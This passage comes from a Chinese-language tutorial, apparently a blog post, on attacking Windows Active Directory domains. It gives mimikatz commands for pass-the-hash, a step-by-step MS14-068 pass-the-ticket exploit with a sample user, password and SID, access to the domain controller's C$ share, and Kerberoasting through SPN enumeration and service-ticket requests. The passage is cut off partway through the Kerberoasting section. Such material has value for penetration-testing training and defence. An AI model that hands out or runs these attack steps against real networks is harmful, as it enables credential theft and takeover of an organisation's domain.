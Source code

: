 > mimikatz sekurlsa::ekeys  
> sekurlsa::pth /user:xxx /domain:xxx /aes256:xxxxxxxx"  
> 成功后会返回一个cmd

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153226666.png)

### 7.PtT-票据传递（ms14-068）

##### 7.1 利用条件

1.域控没有打MS14-068的补丁(KB3011780)  
2.拿下一台加入域的计算机  
3.有这台域内计算机的域用户密码和Sid  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153231318.png)

##### 7.2 利用步骤

先清空当前机器的票据信息  
mimikatz kerberos::list //列出当前票据  
mimikatz kerberos::purge //清除票据  
然后查看本机的sid  
whoami /all  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153234302.png)

> ms14-068生成tgt票据  
> ms14-068.exe -u lisi@goksec.org -p goksec@2021 -s S-1-5-21-1797401017-738776913-2751391128-1106 -d DC.goksec.org

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153237741.png)  
导入票据  
mimikatz kerberos::ptc <>  
使用如下命令，可成功读取域控主机C盘目录下文件  
shell dir \\DC.goksec.org\\c$
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153243968.png)  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153251638.png)

### 8.kerberoast攻击

攻击者从 TGS-REP 中提取加密的服务票证。由于服务票证是用链接到请求 SPN 的帐户的哈希加密的，所以攻击者可以离线破解这个加密块，恢复帐户的明文密码。

##### 8.1 如何得到域中的SPN？

1.  setspn -q _/_
2.  cscript GetUserSPNs.vbs

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153301220.png)

##### 8.2 请求服务票据

> mimikatz kerberos::ask /target:&lt;HOST/OWA&gt;
